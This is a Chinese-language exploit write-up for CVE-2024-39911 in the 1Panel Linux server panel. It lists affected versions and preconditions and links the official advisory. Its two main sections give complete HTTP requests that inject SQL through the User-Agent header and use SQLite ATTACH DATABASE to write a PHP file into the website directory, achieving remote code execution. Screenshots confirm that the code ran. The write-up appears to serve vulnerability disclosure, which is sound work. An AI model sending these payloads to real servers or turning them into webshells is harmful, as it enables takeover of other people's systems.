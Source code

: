 # 1Panel面板最新前台RCE漏洞(CVE-2024-39911)

**1Panel 是新一代的 Linux 服务器运维管理面板，用户可以通过 Web 图形界面轻松管理 Linux 服务器，实现主机监控、文件管理、数据库管理、容器管理等功能。且深度集成开源建站软件 WordPress 和 Halo.**

## 0x1 测试版本

专业版 v1.10.10-lts
社区版 v1.10.10-lts
1panel/openresty:1.21.4.3-3-1-focal

## 0x2 影响范围

网站监控功能影响 == 1panel/openresty:1.21.4.3-3-1-focal
WAF功能影响 <= 1panel/openresty:1.21.4.3-3-1-focal

## 0x3 题外话

具体测试/发现过程在 `https://blog.mo60.cn/index.php/archives/1Panel_SQLinjection2Rce.html` 有兴趣的大佬们可以看看

## 0x4 网站监控功能GetShell

利用条件:

- 专业版,并开启网站监控功能
- 关闭waf功能
- 安装有1P-openresty容器且搭建有php环境网站

默认网站路径格式如下，这个路径是在op容器里面的路径

```
/www/sites/网站代号(默认为域名)/index/
```



通过sql注入导出文件到网站路径下

```yaml
GET / HTTP/1.1
Host: 192.168.99.6
User-Agent: ua', 'blog.mo60.cn', 5201314, '', '', 1, '2024-06-09 08:16:52', 1817921010.847, '/AAAAAAA', 52014, '2025-06-09', '16', '', '', 'Linux', 'edge', 'pc', '', '');ATTACH DATABASE '/www/sites/index/index/mo60.cn.php' AS test ;create TABLE test.exp (dataz text) ; insert INTO test.exp (dataz) VALUES ('<?= md5("blog.mo60.cn"); ?>');#
```



然后来到网站路径下可以看到我们写入的文件

[![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407190936858.png)](https://private-user-images.githubusercontent.com/103053746/338056404-4c64d116-6187-4661-8e9e-d3ae21b189bd.png?jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3MjEzNTMyMzYsIm5iZiI6MTcyMTM1MjkzNiwicGF0aCI6Ii8xMDMwNTM3NDYvMzM4MDU2NDA0LTRjNjRkMTE2LTYxODctNDY2MS04ZTllLWQzYWUyMWIxODliZC5wbmc_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjQwNzE5JTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI0MDcxOVQwMTM1MzZaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT0yYWU1MjIyZmFiMzIwNzI1Yzg1NzQxN2JlNTMwODM5MjlmM2QwNDY5ZGRiZWFkYWU5YTliNDYyZjAyZjAyZWM4JlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCZhY3Rvcl9pZD0wJmtleV9pZD0wJnJlcG9faWQ9MCJ9.xjt8TbyhsjYoiHzeUd26xnyhwMIoC7sjLAy4pM6oB0c)

访问发现成功输出blog.mo60.cn 的md5值，成功执行代码

[![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407190936869.png)](https://private-user-images.githubusercontent.com/103053746/338056240-52bc1681-bba4-4e50-bca5-3a1a2821eb8f.png?jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3MjEzNTMyMzYsIm5iZiI6MTcyMTM1MjkzNiwicGF0aCI6Ii8xMDMwNTM3NDYvMzM4MDU2MjQwLTUyYmMxNjgxLWJiYTQtNGU1MC1iY2E1LTNhMWEyODIxZWI4Zi5wbmc_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjQwNzE5JTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI0MDcxOVQwMTM1MzZaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT0xOWNkYmUyMjc2NTFiMjNiNTMxMzVhMDgyODBiMmEyMTEwNmFiYTM3ZDY2OTczMGNjZGE3NGRiYTVhOGE0ZTUwJlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCZhY3Rvcl9pZD0wJmtleV9pZD0wJnJlcG9faWQ9MCJ9.w-QHDxXdU-6bvX0VL-Bk54sB4XcCdIpj4NAYhvV2hy8)

## 0x5 Waf功能

利用条件:

- 开启waf功能
- 安装有1P-openresty容器且搭建有php环境网站

发送后即可成功写入文件

```yaml
GET /.git/config HTTP/1.1
Host: 192.168.99.6
User-Agent: blog.mo60.cn',"args", "sqlInjectA", "", "YmxvZy5tbzYwLmNu", "blog.mo60.cn", 0, "deny", 0, 1);ATTACH DATABASE '/www/sites/index/index/mo60.cn.php' AS test ;create TABLE test.exp (dataz text) ; insert INTO test.exp (dataz) VALUES ('<?= md5("blog.mo60.cn"); ?>');#
Connection: close
```



## 漏洞来源

- https://github.com/1Panel-dev/1Panel/security/advisories/GHSA-7m53-pwp6-v3f5

